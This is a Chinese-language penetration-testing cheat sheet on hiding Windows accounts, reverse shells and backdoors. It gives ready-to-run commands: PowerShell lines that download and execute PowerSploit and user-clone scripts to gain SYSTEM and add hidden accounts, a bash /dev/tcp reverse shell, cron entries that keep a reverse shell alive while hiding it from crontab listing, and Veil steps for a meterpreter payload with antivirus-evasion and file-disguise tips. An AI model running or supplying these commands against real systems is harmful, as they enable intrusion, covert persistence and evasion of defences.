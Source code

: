 ```
[3389user无法添加](http://www.91ri.org/5866.html)

### 隐藏win账户
---
开启sys权限cmd

	IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'  
add user 并隐藏  

	IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')  
	
win server有密码强度要求，改为更复杂密码即可

[渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)    
[windows的RDP连接记录](http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/)

# 反弹，转发

##  linux bash
---

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
	|
	bash -i 交互的shell
	>& 标准错误输出到标准输出
	/dev/tcp/10.0.0.1/8080 建立socket ip port
	0>&1 标准输入到标准输出

	(crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -
	猥琐版(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -
	详细介绍 https://github.com/tom0li/security_circle/blob/master/15288418585142.md

## ngrok-backdoor
---
Grok-backdoor是一个简单的基于python的后门，它使用Ngrok隧道进行通信。Ngrok后门可以使用Pyinstaller生成windows，linux和mac二进制文件.  
虽然免杀，但如果开win防火墙会提示，生成后门时会询问是否捆绑ngrok，选择no时，在被攻击机执行时需联网下载ngrok，运行后，telnet连接即可.   
github  https://github.com/deepzec/Grok-backdoor

## veil
---
这里，安装问题有点多，我用kali-2018-32安装成功，先安装下列依赖，后按照官方即可。
```
apt-get install libncurses5*
apt-get install libavutil55*
apt-get install gcc-mingw-w64*
apt-get install wine32  
```
生成shell
	
	./Veil.py
	use 1
	use c/meterpreter/rev_tcp
   
在win gcc -o v.exe v.c -lws2_32 用mingw下gcc编译bypass 360

生成的 exe 文件 把后缀改为 txt 或未关联任何打开程序的扩展名如 fii.64 上传后 win 下可以作为执行文件执行
```